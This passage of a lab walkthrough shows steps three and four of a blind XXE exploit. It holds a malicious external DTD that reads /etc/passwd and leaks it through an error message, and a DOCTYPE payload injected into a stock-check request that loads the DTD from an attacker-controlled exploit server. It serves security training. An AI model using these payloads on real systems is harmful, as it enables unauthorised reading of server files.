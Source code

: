 **Step3:**

Go to exploit server create file exploit.dtd and save payload
```
<!ENTITY % file SYSTEM "[file:///etc/passwd](file://etc/passwd)">

<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM '[file:///nonexistent/%file;](file://nonexistent/%25file;)'>">

%eval;

%error;
```

Click on view exploit and copy the url

[https://exploit-0a14003b04f959c480b4e9f3010500c0.exploit-server.net/exploit.dtd](https://exploit-0a14003b04f959c480b4e9f3010500c0.exploit-server.net/exploit.dtd)

**Step4:**

Add the following payload in POST /product/stock request

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "[http://web-attacker.com/malicious.dtd](http://web-attacker.com/malicious.dtd)"> %xxe;]>
```

In my case it look like
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM

"[https://exploit-0a14003b04f959c480b4e9f3010500c0.exploit-server.net/exploit.dtd](https://exploit-0a14003b04f959c480b4e9f3010500c0.exploit-server.net/exploit.dtd)"> %xxe;]>

```

<img src="images/image33.png" alt="third" width="500">
